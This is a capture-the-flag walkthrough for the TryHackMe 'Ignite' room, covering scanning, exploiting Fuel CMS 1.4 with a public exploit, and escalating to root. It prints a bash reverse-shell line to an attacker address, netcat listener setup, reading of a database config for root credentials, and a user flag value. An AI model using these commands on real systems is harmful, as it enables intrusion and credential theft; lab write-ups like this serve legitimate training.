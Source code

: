 # [Ignite](https://tryhackme.com/room/ignite)

> A new start-up has a few issues with their web server

## Scanning

Scan the target with nmap

```
nmap -A -T4 10.10.138.185
```

![image](https://user-images.githubusercontent.com/90561566/188138041-0e800d6a-7fc8-41a8-8bb4-e9535589f31d.png)

Hmm, found only 1 open port 80 (http)

## HTTP

Go to the web page

![image](https://user-images.githubusercontent.com/90561566/188138642-85ed4d57-3ec3-4467-bed3-dde8f7355691.png)

It's default page of fuel cms 1.4

## Enumeration

Gobuster to discover hidden directory

```
gobuster dir -u http://10.10.138.185 -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/188139192-d3977108-ff1f-43e1-b05b-5f6b4d0a6b41.png)

I connected to /0/ and /home/ directory and maybe in vain

![image](https://user-images.githubusercontent.com/90561566/188139966-5029d435-ba8f-4ceb-ba6d-a7a5f464cdbb.png)

I had logggd in and see nothing too

## Exploitation

I search exploit for fuelcms

```
searchsploit fuelcms 1.4
```

![image](https://user-images.githubusercontent.com/90561566/188140509-e7f1d285-a42e-4e56-bb53-75ce63f1e2af.png)

copy exploit

```
searchsploit -m 47138.py
vi 47138.py
```

change line 14 to target ip

![image](https://user-images.githubusercontent.com/90561566/188140922-cc1950b3-b5cc-46e5-a836-27ab5cd654f4.png)

```
chmod +x 47138.py
python 47138.py
```

![image](https://user-images.githubusercontent.com/90561566/188256466-ef67f34d-b02c-421e-b8f1-f15a6393e4a9.png)

now we open a reverse shell to control easily

```
vi rev.sh
bash -i >& /dev/tcp/<your_ip>/4444 0>&1
```

open 2 tab

```
python3 -m http.server 80 # http server to download file
and
nc -vlnp 4444 # netcat listener on port 4444
```

next

![image](https://user-images.githubusercontent.com/90561566/188258559-b452576b-a916-4c41-b363-ba8633f969d4.png)

![image](https://user-images.githubusercontent.com/90561566/188258613-6d26529d-c131-401b-b075-8e214dc59ead.png)

![image](https://user-images.githubusercontent.com/90561566/188258643-545ca4a4-bc4e-48ff-b7dd-5259cef13e47.png)

okay, we got a shell

![image](https://user-images.githubusercontent.com/90561566/188258669-b25aaa28-44ff-4efe-b405-4077b1fa26c4.png)

search flag on /home

![image](https://user-images.githubusercontent.com/90561566/188258710-0b59be70-6923-4025-969f-8b4e9fc3e659.png)

| Flag | User flag |
| --- | --- |
| User.txt | 6470e394cbf6dab6a91682cc8585059b |

## Privilege Escalation

I tried `sudo -l -l` but it didn't work

![image](https://user-images.githubusercontent.com/90561566/188258803-f8a5356b-c65f-4b64-aa0e-cf56bc438f19.png)

during reconnaissance i noticed some instructions related to Database configuration on the webpage

![image](https://user-images.githubusercontent.com/90561566/188258939-44efe6c8-f5e6-4b8f-a8a6-347bc6c00804.png)

```
cat fuel/application/config/database.php
```

![image](https://user-images.githubusercontent.com/90561566/188258995-6329d359-e685-4b0c-9cf1-042a6be1919c.png)

there is it

![image](https://user-images.githubusercontent.com/90561566/188259024-19eed0e6-7dcb-43ba-9703-c8d01e3c6ec6.png)

user: root, pass: mememe

![image](https://user-images.githubusercontent.com/90561566/188259227-9b187eef-6ca7-4700-bf76-f0840007dca6.png)

i got an error, after gg search, here is the solution

```
python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

/bin/sh -i
```

![image](https://user-images.githubusercontent.com/90561566/188259287-2f59492d-31f2-440b-96a1-44d7c0665678.png)


.

| Flag | User flag |
| --- | --- |
| Answer | <flag> |
